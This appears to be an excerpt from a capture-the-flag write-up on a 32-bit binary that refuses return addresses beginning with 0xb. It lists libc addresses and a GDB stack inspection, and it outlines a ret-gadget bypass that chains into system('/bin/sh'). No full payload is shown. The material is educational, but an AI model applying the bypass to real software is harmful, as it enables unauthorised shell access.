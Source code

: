 ### Address Summary:
| Function/String | Address    | Starts with 0xb? | Blocked by Check? |
|----------------|------------|-------------------|-------------------|
| system()       | 0xb7e6b060 | ✅ Yes            | ✅ Yes            |
| exit()         | 0xb7e5ebe0 | ✅ Yes            | ✅ Yes            |
| "/bin/sh"      | 0xb7f8cc58 | ✅ Yes            | N/A (data)        |
| ret instruction| 0x0804854b | ❌ No             | ❌ No             |

---

## 🛡️ Security Mechanism Analysis

The program implements a simple but effective protection:

```assembly
mov    0x4(%ebp),%eax      # Load return address from stack
mov    %eax,-0xc(%ebp)     # Store it locally
mov    -0xc(%ebp),%eax     # Load it back
and    $0xb0000000,%eax    # Mask to check first nibble
cmp    $0xb0000000,%eax    # Compare with 0xb0000000
jne    0x8048527 <p+83>    # Jump if NOT 0xb0000000
```

### How the Check Works:

1. **Extracts return address** from stack position `EBP+4`
2. **Applies bitmask** `0xb0000000` to isolate the first nibble
3. **Compares result** to `0xb0000000`
4. **If match found**: Address starts with `0xb` → Print and exit
5. **If no match**: Continue execution normally

### Why This Matters:

Most libc functions (including `system()`) are loaded in memory regions starting with `0xb`, making direct return-to-libc attacks impossible.

### Our Bypass Strategy:

We'll use **Return-Oriented Programming (ROP)** with a gadget that doesn't start with `0xb`:
- Return to `ret` instruction at `0x0804854b`
- This instruction will pop the next stack value into EIP
- Allowing us to indirectly call `system()`

---

## � Why Shellcode Injection Can't Be Used

Using GDB, we can inspect the stack when the vulnerable function `p()` is called:

```bash
(gdb) break p
Breakpoint 1 at 0x80484da
(gdb) run
Breakpoint 1, 0x080484da in p ()
(gdb) info frame
Stack level 0, frame at 0xbffff730:
eip = 0x80484da in p; saved eip 0x804854a
saved registers:
ebp at 0xbffff728, eip at 0xbffff72c
(gdb) x/40x $ebp-0x50
0xbffff6d8: … 0xbffff6e8: 0xbffff73c … 0xbffff728: 0xbffff738 0x0804854a …
```
